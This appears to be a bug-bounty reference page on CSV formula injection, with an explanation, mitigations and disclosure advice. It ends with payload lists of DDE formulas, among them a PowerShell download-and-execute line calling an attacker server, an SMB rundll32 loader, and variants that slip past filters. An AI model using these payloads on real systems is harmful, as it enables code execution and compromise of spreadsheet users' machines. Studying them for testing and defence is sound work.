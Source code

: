 # CSV Injection

# Introduction:
In the realm of bug bounty hunting, security researchers actively seek vulnerabilities in software systems to help organizations identify and fix potential threats. One such vulnerability that has gained significant attention is CSV (Comma-Separated Values) injection. This article aims to provide a comprehensive understanding of CSV injection, its risks, and effective countermeasures, empowering bug bounty hunters and developers alike to mitigate this security concern effectively.

## Understanding CSV Injection:
CSV injection, also known as formula injection or data injection, occurs when an attacker manipulates the content of a CSV file to execute malicious commands. CSV files are commonly used to store and exchange data between different systems, such as spreadsheets, databases, and web applications. The primary cause of this vulnerability is the mishandling of user-supplied data in CSV fields that are processed by spreadsheet applications.

### Exploitation Process:

Identifying vulnerable applications: Start by identifying web applications that accept user input and generate CSV files dynamically.
Crafting a malicious payload: Construct a CSV file with cells that contain specific content capable of triggering formula execution within spreadsheet applications.
Injecting the payload: Submit the crafted CSV file to the target application, typically by uploading or importing it.
Execution of malicious formulas: If the application processes the CSV file without proper validation or sanitization, the formulas within the cells can execute arbitrary commands, leading to various security risks.
#### Risks Associated with CSV Injection:

Remote Code Execution: Successful CSV injection attacks can allow remote code execution on the target system, enabling an attacker to execute arbitrary commands with the privileges of the affected application.
Data Exfiltration: Attackers can exploit CSV injection to extract sensitive data stored in the target system, potentially leading to data breaches and privacy violations.
Denial of Service: By injecting malicious formulas into CSV files, an attacker can cause spreadsheet applications to consume excessive system resources, leading to denial-of-service conditions.

### Mitigation Strategies:

Input Validation and Sanitization: Implement robust input validation and sanitization techniques to prevent malicious data from being stored or processed within CSV files.
Strict Content-Type Handling: Set appropriate Content-Type headers to ensure that files uploaded or imported by the application are interpreted as CSV files and not as executable code.
Avoiding Dynamic Formulas: Avoid the use of dynamic formulas within CSV files, especially when user-supplied data is involved.
Content Disposition and File Naming: Provide meaningful and secure names for CSV files and set the appropriate Content-Disposition headers to prevent malicious content from being executed inadvertently.
Education and Awareness: Educate developers, system administrators, and end-users about the risks associated with CSV injection and the best practices to mitigate them.

### Reporting and Responsible Disclosure:
If you discover CSV injection vulnerabilities during your bug bounty hunting activities, it is crucial to follow responsible disclosure practices. Notify the affected organization or platform about the vulnerability promptly, providing detailed information on how to reproduce the issue and potential mitigations. Allow the organization sufficient time to address the vulnerability before disclosing it publicly.

# Conclusion:
CSV injection presents a significant risk in web applications that handle CSV files. Bug bounty hunters play a crucial role in identifying and reporting these vulnerabilities, enabling organizations to enhance their security posture. By understanding the risks associated with CSV injection and adopting effective countermeasures, both security researchers and developers can collaborate to mitigate this threat, ensuring the integrity and security of web applications that process CSV files.




### Tutorials for CSV Injection
* [OWASP CSV Injection](https://owasp.org/www-community/attacks/CSV_Injection) - A pretty good overview by OWASP
* [Google CSV Formula Injection](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection) - An overview by Google
* [Your Spreadsheets are Not Safe](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection) - A great article on CSV Injection
* [Three New DDE Obfuscation Methods](https://www.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation) - An article explaining DDE and CSV Injection


### Payloads for CSV Injection

**Basic Exploit with Dynamic Data Exchange**
```
# pop a calc
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0

# pop a notepad
=cmd|' /C notepad'!'A1'

# powershell download and execute
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0

# msf smb delivery with rundll32
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

# Prefix obfuscation and command chaining
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A

# Using rundll32 instead of cmd
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A

# Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A


```

**Other Payloads**

```
=DDE("cmd";"/C calc";"!A0")A0
@SUM(1+9)*cmd|' /C calc'!A0
=10+20+cmd|' /C calc'!A0
=cmd|' /C notepad'!'A1'
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
=cmd|'/c rundll32.exe \\10.0.0.1\3\2\1.dll,0'!_xlbgnm.A1

```